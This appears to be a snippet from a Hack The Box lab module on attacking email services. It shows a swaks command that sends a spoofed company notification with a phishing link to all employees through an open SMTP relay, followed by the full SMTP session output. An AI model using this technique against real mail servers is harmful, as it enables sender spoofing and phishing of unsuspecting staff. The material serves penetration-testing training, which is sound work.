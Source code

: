 Attacking Email Services

```shell-session
frank-106@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
 -> Subject: Company Notification
 -> Message-Id: <20201029013606.775675@parrot>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/
 -> 
 -> 
 -> .
<-  250 OK
 -> QUIT
<-  221 Bye
=== Connection closed with remote host.
```